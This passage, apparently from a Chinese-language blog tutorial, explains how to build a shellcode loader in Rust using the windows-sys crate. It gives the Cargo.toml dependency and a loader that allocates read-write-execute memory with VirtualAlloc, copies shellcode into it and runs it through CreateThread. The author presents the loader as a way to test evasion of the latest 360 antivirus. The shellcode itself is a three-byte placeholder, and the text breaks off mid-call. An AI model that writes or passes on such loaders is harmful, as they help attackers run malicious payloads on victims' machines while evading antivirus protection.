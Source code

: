 跟其他大多数的语言一样，rust 也集成了 windows 的 api，这样我们就可以来调用加载我们的 shellcode，这里我们用到两个库 windows-sys 和 winapi。

### windows-sys

首先要引用==windows-sys==，要引用它，我们往==Cargo.toml==引入以下依赖

```plain
windows-sys = { version = "0.48.0", features = ["Win32_Foundation", "Win32_System_Threading", "Win32_Security", "Win32_System_Memory"] }
```

下面是一个基本的加载器，我们以最基础的 VirtualAlloc 来测试 360 最新版

```plain
#![windows_subsystem = "windows"]

use windows_sys; 
use std::{ptr, ffi::c_void};

fn main() {
    let shellcode: [u8; 3] = [ 0xfc, 0x48, 0x83];  // shellcode

    // 执行shellcode
    exec(&shellcode);
}

fn exec(shellcode: &[u8]) {
    unsafe {
        // 使用 VirtualAlloc 初始化 shellcode
        let exec_shellcode = windows_sys::Win32::System::Memory::VirtualAlloc(
            ptr::null_mut(), // 分配内存
            shellcode.len(), 
            windows_sys::Win32::System::Memory::MEM_COMMIT
                | windows_sys::Win32::System::Memory::MEM_RESERVE, 
            windows_sys::Win32::System::Memory::PAGE_EXECUTE_READWRITE, 
        );

        // 复制shellcode到RWX内存
        std::ptr::copy(
            shellcode.as_ptr(),
            exec_shellcode as *mut u8,
            shellcode.len(),
        );

        // 使用CreateThread来执行一个线程
        // 使用transmute转换为函数指针
        let exec_shellcode_pointer: extern "system" fn(*mut c_void) -> u32 =
            { std::mem::transmute(exec_shellcode) };
        let thread_handle = windows_sys::Win32::System::Threading::CreateThread(
            ptr::null_mut(),
            0,
            Some(exec_shellcode_pointer),
            ptr::null_mut(),
            0,
            ptr::null_mut(),
        );

        windows_sys::Win32::System::Threading::WaitForSingleObject(
            thread_handle,
            windows_sys::Win32::System::Threading::INFINITE,
        );

        // 释放之前分配的内存并关闭线程句柄
        windows_sys::Win32::System::Memory::VirtualFree(
            exec_shellcode,
            0,
```